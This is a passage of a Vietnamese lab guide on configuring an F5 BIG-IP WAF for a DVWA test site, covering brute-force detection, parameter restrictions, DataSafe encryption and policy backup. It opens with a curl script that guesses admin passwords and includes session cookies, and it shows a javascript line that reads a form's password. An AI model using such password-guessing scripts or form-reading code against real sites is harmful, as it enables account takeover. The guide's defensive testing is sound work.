echo "login lan thu 2"
curl 'https://dvwa.bienlab.com/login.php' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en,en-US;q=0.9,vi;q=0.8' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: BIGIPAuthUsernameCookie=admin; f5currenttab="main"; f5mainmenuopenlist=""; f5advanceddisplay=""; security=low; TS019fa5f1030=0; f5_refreshpage="https%3A//dvwa.bienlab.com%3A8443/dms/policy/requests_ng.php"; BIGIPAuthCookie=kXZiWN1Ealng5up2idtyjYncdqw3J8pyMXm1HUSN; PHPSESSID=voonj10j3v6kgml8fbujpb5m47; f5formpage="/tmui/locallb/pool/resources.jsp?name=/Common/dvwa_pool"; TS019fa5f1=01ed81241150ca5c383559014eddb5ef5d6bcbc02d47f468362b4900732ac291511109b1e111b49704f1ceca516e3ef872921f9d3f' \
  -H 'Origin: https://dvwa.bienlab.com' \
  -H 'Referer: https://dvwa.bienlab.com/login.php' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-User: ?1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36' \
  -H 'sec-ch-ua: "Google Chrome";v="111", "Not(A:Brand";v="8", "Chromium";v="111"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Windows"' \
  --data-raw 'username=admin&password=password2&Login=Login&user_token=2b8360ffb89776248f4580e7627873e5' \
  -i

sleep 1

echo "login lan thu 3"
curl 'https://dvwa.bienlab.com/login.php' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en,en-US;q=0.9,vi;q=0.8' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: BIGIPAuthUsernameCookie=admin; f5currenttab="main"; f5mainmenuopenlist=""; f5advanceddisplay=""; security=low; TS019fa5f1030=0; f5_refreshpage="https%3A//dvwa.bienlab.com%3A8443/dms/policy/requests_ng.php"; BIGIPAuthCookie=kXZiWN1Ealng5up2idtyjYncdqw3J8pyMXm1HUSN; PHPSESSID=voonj10j3v6kgml8fbujpb5m47; f5formpage="/tmui/locallb/pool/resources.jsp?name=/Common/dvwa_pool"; TS019fa5f1=01ed81241150ca5c383559014eddb5ef5d6bcbc02d47f468362b4900732ac291511109b1e111b49704f1ceca516e3ef872921f9d3f' \
  -H 'Origin: https://dvwa.bienlab.com' \
  -H 'Referer: https://dvwa.bienlab.com/login.php' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-User: ?1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36' \
  -H 'sec-ch-ua: "Google Chrome";v="111", "Not(A:Brand";v="8", "Chromium";v="111"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Windows"' \
  --data-raw 'username=admin&password=password3&Login=Login&user_token=2b8360ffb89776248f4580e7627873e5' \
  -i

sleep 1

echo "login lan thu 4"
curl 'https://dvwa.bienlab.com/login.php' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en,en-US;q=0.9,vi;q=0.8' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: BIGIPAuthUsernameCookie=admin; f5currenttab="main"; f5mainmenuopenlist=""; f5advanceddisplay=""; security=low; TS019fa5f1030=0; f5_refreshpage="https%3A//dvwa.bienlab.com%3A8443/dms/policy/requests_ng.php"; BIGIPAuthCookie=kXZiWN1Ealng5up2idtyjYncdqw3J8pyMXm1HUSN; PHPSESSID=voonj10j3v6kgml8fbujpb5m47; f5formpage="/tmui/locallb/pool/resources.jsp?name=/Common/dvwa_pool"; TS019fa5f1=01ed81241150ca5c383559014eddb5ef5d6bcbc02d47f468362b4900732ac291511109b1e111b49704f1ceca516e3ef872921f9d3f' \
  -H 'Origin: https://dvwa.bienlab.com' \
  -H 'Referer: https://dvwa.bienlab.com/login.php' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-User: ?1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36' \
  -H 'sec-ch-ua: "Google Chrome";v="111", "Not(A:Brand";v="8", "Chromium";v="111"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Windows"' \
  --data-raw 'username=admin&password=password4&Login=Login&user_token=2b8360ffb89776248f4580e7627873e5' \
  -i
```
Kết quả của script trên đối với 3 lần đầu đều là đã kết nối thành công với ứng dụng:
```
HTTP/1.1 302 Found
Date: Fri, 17 Mar 2023 05:10:57 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: login.php
Content-Length: 0
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Set-Cookie: TS019fa5f1=01ed81241183390baccd3be0bf73ebc284e33a0b890ada820025f4c65fad8a68ada0a492224bc71c668a44484fab0182f61637ab44; Path=/
```

Tuy nhiên tại lần thứ 4, kết quả mã trả về 200 (không phải từ ứng dụng), hệ thống cũng gửi cho client một file binary chứa script khiến một công cụ như `curl` không thể hoàn thành như đối với một trình duyệt bình thường.
```
HTTP/1.1 200 OK
Content-Length: 6313
Pragma: no-cache
Cache-Control: no-cache
Content-Type: text/html
Set-Cookie: TS019fa5f1078=c70512a20b0a810b08f0888080b08dd4b08c011a140a03706870180a20840b28ffffffff0f3059380022230801120a2f6c6f67696e2e7068702999c2d3d3d6f175073801400158006a04504f5354288f0130f2033a260a08757365726e616d65120561646d696e1a012a200128057801a80100e80101f00105f801013a260a0870617373776f726412052a2a2a2a2a1a012a200128097801a80100e80101f00105f801013a230a054c6f67696e12054c6f67696e1a012a200128057801a80100e80101f00105f801013a430a0a757365725f746f6b656e122032623833363066666238393737363234386634353830653736323738373365351a012a200128207801a80100e80101f00105f8010142410a17424947495041757468557365726e616d65436f6f6b69651a122a1000000000000000000000000000000000220561646d696e280132012a380040014802580142350a0c663563757272656e747461621a122a100000000000000000000000000000000022046d61696e280132012a380040014802580142370a1266356d61696e6d656e756f70656e6c6973741a122a10000000000000000000000000000000002200280132012a380040014802580142360a116635616476616e636564646973706c61791a122a10000000000000000000000000000000002200280132012a380040014802580142300a0873656375726974791a122a100000000000000000000000000000000022036c6f77280132012a3800400148025801426f0a0e66355f72656672657368706167651a122a1000000000000000000000000000000000223c68747470732533412f2f647677612e6269656e6c61622e636f6d253341383434332f646d732f706f6c6963792f72657175657374735f6e672e706870280132012a3800400148025801425c0a0f424947495041757468436f6f6b69651a122a100000000000000000000000000000000022286b585a69574e3145616c6e6735757032696474796a596e63647177334a3870794d586d314855534e280132012a380040014802580142480a095048505345535349441a122a1000000000000000000000000000000000221a766f6f6e6a31306a3376366b676d6c386662756a7062356d3437280132012a380040014802580142660a0a6635666f726d706167651a122a100000000000000000000000000000000022372f746d75692f6c6f63616c6c622f706f6f6c2f7265736f75726365732e6a73703f6e616d653d2f436f6d6d6f6e2f647677615f706f6f6c280132012a38004001480258014a122a100000000000008000000000000000000052122a10000000000000000000000000000000005a1c10f42d189aae7c20ff3f2a100413000008002d8af800000000000000621c10f42d189aee7d20ff3f2a100417020008002d8ac0035f60000000006a1c10f42d189aee7d20ff3f2a100417020008002d8ac0035f60000000007a1208001000188080fcff0f20f582f4a80328008001e2eccfa0068a0110647677612e6269656e6c61622e636f6d9001b093aceb96a9a9f017b00102da01216170706c69636174696f6e2f782d7777772d666f726d2d75726c656e636f646564f20102564efa010561646d696e880213980206a00280808020a802b093aceb96a9a9f017c202122a1000000200000000000000000000000000d2020438353630d80201e00200e802c0df03f002bb03f80200800300880300900300980300a00304a80300b2031108001000188080fcff0f20f582f0682800b80300c00300ca03020816d80300e00300e80300880400ca04152f436f6d6d6f6e2f76735f68747470735f64767761d00400e2040508a208106fea040508ef061022f00404f804039205009a0500a00501aa051208041002180338b40140ac02480368047001c00500c80501d00500e80503f00501f80503920608485454502f312e31121c08f0888080b08dd4b08c01100018008001049001e2eccfa006c801002803300151e4e3ba1e1356266d5a132f436f6d6d6f6e2f647677615f706f6c69637903700400006b50618c; Path=/; Max-Age=5;

Warning: Binary output can mess up your terminal. Use "--output -" to tell
Warning: curl to output it to your terminal anyway, or consider "--output
Warning: <FILE>" to save to a file.

```

Ghi nhận trong Events Log có một bản ghi thể hiện rằng việc dò quét mật khẩu đã bị phát hiện, cơ chế phòng vệ `Alarm and Client Side Integrity` cũng được kích hoạt nhưng không có phản ứng nào khác từ client (script trên không được thiết kế và tính đến khả năng này)



### 7. Cấu hình các chế độ bảo vệ parameter

Các tham số - parameters đối với một ứng dụng web được hiểu là thông tin được người dùng (thông qua trình duyệt) gửi tới ứng dụng bằng một trong các phương thức như POST hoặc GET. Chẳng hạn như đối với tham số về địa chỉ IP trong form dưới đây:


Người sử dụng chỉ nên nhập vào dữ liệu có dạng một địa chỉ IPv4 chẳng hạn, để hạn chế rủi ro bảo mật, người quản trị có thể định nghĩa tham số này (ip) chỉ bao gồm các ký tự dạng số `0-9` và dấu `.`

Làm như vậy sẽ hạn chế được tương đối các khả năng chèn mã độc vào trong tham số này. Để cấu hình khả năng này, người quản trị thực hiện:
- Định nghĩa parameter thủ công nếu đang không bật chế độ học tự động
- Với parameter đó, định nghĩa các loại ký tự được phép/không được phép và các tính năng khác nếu thấy cần thiết

Để định nghĩa thủ công tham số này, truy cập vào `Security`  ››  `Application Security : Parameters : Parameters List`, bấm vào nút `Create` để tạo mới:


- Parameter Name: đặt tên cho tham số, cái này phải chính xác với ứng dụng thực tế. Sử dụng các tính năng cho developer trên trình duyệt để tìm hiểu tên parameter.
- Perform Staging: có thực thi các thiết lập này ngay lập tức không hay chỉ cảnh báo để tránh nhầm lẫn, sai sót. Ví dụ minh họa là thực hiện ngay (tắt Staging)
- Minimum Length: độ dài tối thiểu của tham số này. Ví dụ với địa chỉ IP, độ dài tối thiểu là 7 (4 chữ số và 3 dấu chấm)
- Maximum Length: độ dài tối đa của tham số này. Ví dụ trong trường hợp này là 15 (4 con số dài 3 chữ số và 3 dấu chấm).

Click vào tab `Value Meta Characters`, thay đổi các ký tự được phép và không được phép đối với dữ liệu của tham số này (chỉ cho phép các con số `0-9` và dấu `.`)



Click nút `Create` và `Apply Policy`

Nếu có vi phạm, trong Events Log cũng sẽ chỉ ra cụ thể đối với tham số này:



Chiến lược này gọi là Positive Security - chỉ ra các quy tắc hợp lệ để chặn các trường hợp còn lại.

### 8. Tính năng mã hóa dữ liệu trên trình duyệt

Hầu hết các tính năng WAF trong tài liệu này đều thực thi phía F5 BIG-IP, riêng đối với tính năng này là thực hiện tại trình duyệt của người dùng. Theo đó, một đoạn mã javascript sẽ được gửi tới trình duyệt của người dùng nhằm mã hóa các trường thông tin nhạy cảm (username, password..). Việc mã hóa này sẽ tránh được các plug-in độc hại trên trình duyệt đánh cắp các thông tin này.

Ví dụ, một form như dưới đây, khi người dùng nhập dữ liệu xong và chưa bấm vào nút `Login` (chưa submit dữ liệu), hoàn toàn có thể đọc thông tin trong form đó bằng các đoạn mã javascript, chẳng hạn lấy giá trị của password bằng hàm `document.forms[0].password.value` .



Để mã hóa dữ liệu ngay từ phía trình duyệt (và nhiều tính năng cao cấp khác), cần cấu hình tính năng `DataSafe`.

Trước hết, cần bật module `Fraud Protection Service (FPS)`



Tạo một local log publisher để có thể xem log liên quan đến tính năng này ngay trên F5 BIG-IP


> Khuyến nghị: cấu hình một máy chủ log bên ngoài, và đẩy log phần này ra đó nếu muốn lưu trữ lâu dài.

Truy cập vào `Security`  ››  `Data Protection : BIG-IP DataSafe`, bấm vào nút `Create` 

Đặt tên cho profile, chỉ định Local Syslog Publisher vừa tạo bước trên.


Bấm nút `Create` để tạo profile, sau đó tiếp tục cấu hình các URL, Parameter và tính năng bảo vệ.

Phần `URL List`, bấm nút `Add` để định nghĩa 1 URL cần bảo vệ. URL Path là `/login.php`



Phần Parameters, thêm vào 2 parameter là `username` và `password` như hình minh họa dưới đây (nhớ chọn mục `Encrypt`):





Bấm nút `Save` để lưu lại các parameter đối với URL này và `Back to Profile` để quay ra ngoài màn hình cấu hình profile và bấm vào nút `Save` để lưu lại cấu hình.

Để áp dụng tính năng này cho virtual server, truy cập vào `Local Traffic`  ››  `Virtual Servers : Virtual Server List`  ››  chọn virtual server cần bảo vệ ví dụ `vs_https_dvwa`, trong tab `Security` > `Policies`, phần `DataSafe Profile` chọn `Enabled` và chọn  profile vừa cấu hình như minh họa bên dưới:



Click vào nút `Update` để lưu lại. Sau đó kiểm tra.

Quay trở lại trình duyệt, thử thực hiện lại hành động đọc thông tin từ trường password (đã được biến đổi thành các chữ `aaaaaaa`):


Đặc biệt, khi submit thông tin, trường username được che dấu (obfuscate) và mã hóa (encrypt) như hình minh họa bên dưới:



### 9. Sao lưu và phục hồi chính sách bảo mật

Để sao lưu (chính xác là `Export`), vào mục `Security` > `Application Security : Security Policies : Policies List`, chọn policy cần export rồi bấm vào nút `Export` --> `Export Policies`. Hệ thống sẽ cho download về một file có khuôn dạng XML hoặc nhị phân tùy thuộc vào lựa chọn.



Để phục hồi chính sách bảo mật từ 1 file đã export trước đó, vào 
`Security`  ››  `Application Security : Security Policies : Policies List`, chọn `Import Policy`



Sau đó vào phần cấu hình virtual server, mục `Security` > `Policies` để áp dụng


## III. Liên hệ hỗ trợ
Yêu cầu hỗ trợ kỹ thuật xin gửi đến địa chỉ: https://support.f5.com/
